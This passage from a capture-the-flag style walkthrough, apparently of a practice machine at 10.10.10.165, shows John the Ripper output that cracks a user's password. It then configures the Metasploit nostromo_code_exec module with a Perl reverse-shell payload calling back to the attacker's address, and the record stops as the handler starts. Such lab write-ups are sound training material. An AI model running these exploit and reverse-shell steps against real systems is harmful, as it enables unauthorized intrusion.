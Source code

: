 ```bash
0g 0:00:01:43 54.15% (ETA: 15:59:02) 0g/s 74740p/s 74740c/s 74740C/s gogfuc..goge4l12
Nowonly4me       (david)
1g 0:00:02:34 DONE (2019-12-06 15:58) 0.006490g/s 68658p/s 68658c/s 68658C/s Noyoudo..Novaem
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And we have cracked it, but where can we use it?.

Okay, so at this point I was really struggling to find a way to gain an initial foothold in the server. But then I reread the exploit
and understood that it is in fact an `RCE` vulnerability and now I am feeling stupid for not reading the exploit properly.

## Low Priv Shell
So there is a `metasploit` module for this exploit. Lets try that.

#### Metasploit
```bash
msf5 > use exploit/multi/http/nostromo_code_exec 
msf5 exploit(multi/http/nostromo_code_exec) > set rhosts 10.10.10.165
rhosts => 10.10.10.165
msf5 exploit(multi/http/nostromo_code_exec) > show options

Module options (exploit/multi/http/nostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.10.10.165     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)


msf5 exploit(multi/http/nostromo_code_exec) > set lhost 10.10.14.22
lhost => 10.10.14.22
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] Configuring Automatic (Unix In-Memory) target
```